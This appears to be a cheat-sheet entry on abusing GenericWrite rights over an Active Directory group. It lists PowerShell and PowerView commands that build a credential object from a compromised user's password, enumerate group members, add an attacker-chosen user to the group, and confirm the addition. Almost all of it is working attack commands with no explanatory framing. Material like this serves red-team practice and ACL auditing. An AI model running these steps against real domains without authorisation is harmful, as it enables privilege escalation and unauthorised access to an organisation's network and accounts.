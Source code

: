 # GenericWrite
## On a `Group` Object `AddMember`

1. **Authenticate as the Compromised User**:  
   - Create a `PSCredential` object for the user with group modification rights:  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     *(Replace `DOMAIN\USERNAME` and `<PASSWORD>` with the target user's credentials, e.g., `corp.com\ali`).*  

2. **Verify Current Group Membership**:  
   - Check existing members of the target group (e.g., `Help Desk Level 1`):  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Select MemberName
     ```  
     or using native AD cmdlets:  
     ```powershell
     Get-ADGroupMember -Identity "GROUP_NAME" | Select-Object Name
     ```  

3. **Add the User to the Group**:  
   - Use PowerView's `Add-DomainGroupMember` (or `Add-ADGroupMember`):  
     ```powershell
     Add-DomainGroupMember -Identity 'GROUP_NAME' -Members 'TARGET_USER' -Credential $Cred -Verbose
     ```  
     *(Replace `GROUP_NAME` and `TARGET_USER` with the group and user to add, e.g., `Help Desk Level 1` and `ali`).*  

4. **Confirm Success**:  
   - Re-run the membership check to ensure the user was added:  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Where-Object { $_.MemberName -eq 'TARGET_USER' }
     ```  
